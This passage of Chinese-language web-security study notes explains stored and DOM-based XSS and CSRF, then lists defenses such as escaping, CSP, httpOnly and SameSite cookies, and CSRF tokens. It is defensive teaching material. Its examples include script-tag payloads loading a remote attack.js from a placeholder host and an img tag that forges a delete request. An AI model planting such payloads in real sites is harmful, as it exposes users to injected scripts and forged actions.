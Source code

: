 存储型（持久性）
原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本返回并执行
要点：恶意代码存储在目标网站的服务器上、有服务端参与、只要用户访问被注入恶意脚本的页面时，就会被攻击
例如
```
攻击者在目标网站留言板中提交了<script src="http://a.com/attack.js"/>。

目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过 innerHTML 渲染到页面中。

其他用户在访问该留言板时，会自动执行攻击者注入脚本。
```

DOM型
原理：攻击者通过URL插入恶意代码，客户端脚本取出URL中的恶意代码并执行
要点：只在客户端发生
例如
```
攻击者诱导被害者打开链接 baidu.com?name=<script src="http://a.com/attack.js"/>。

被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。

被害者在不知情的情况下，执行了攻击者注入的脚本。
```

防范XSS
- 对于外部传入的内容进行充分转译
- 开启CSP（Content Security Policy,内容安全策略），规定客户端哪些资源可以加载和执行，降低XSS风险
- 设置Cookie httpOnly，禁止js读取cookie防止被窃取

2. CSRF（跨站请求伪造）
原理：攻击者诱导受害者进入第三方网站，在第三方网站中向攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证，达到冒充用户对被攻击网站执行某项操作的目的
要点：利用浏览器发送http请求时会自动带上cookie的原理，冒充受害者身份；攻击一般发生在第三方网站上；攻击者只能冒用受害者身份凭证，而不能获取；跨站请求的方式有多种方式，常见的由图片url、超链接、form提交
例如
```
攻击者在第三方网站上放置一个如下的 img
<img src="http://baidu.com/article/delete" />

受害者访问该页面后（前提：受害者在 baidu.com 登录过且产生了 Cookie 信息），浏览器会自动发起这个请求，baidu.com 就会收到包含受害者身份凭证的一次跨域请求。

若目标网站没有任何防范措施，那攻击者就能冒充受害者完成这一次请求操作。
```

防范
- 使用CSRF token验证用户身份
  - 原理：服务端生成CSRF token（通常存在Session中），用户提交请求时携带上token，服务端验证token是否有效
  - 优点：能比较有效的预防csrf（前提是没有xss漏洞泄漏token）
  - 缺点：大型网站中session存储会增加服务器压力，且若使用分布式集群还需要一个公共存储空间存储token，否则用户可能请求到不同的服务器上导致用户凭证失效；有一定的工作量
- 双重cookie验证
  - 利用攻击者不能获取到cookie的特点，在URL参数或者自定义请求头上带上cookie数据，服务器再验证该数据是否与cookie一致
  - 优点：不用使用session，不会给服务器压力
- 设置cookie的sameSite属性可以用来限制第三方，可选值有Strict、Lax、None
  - Strict：完全禁止第三方cookie
  - Lax：只允许链接、预加载请求和get表单的场景下发送第三方Cookie
  - None：关闭sameSit属性
- 设置白名单，只允许安全域名请求
- 增加验证码验证
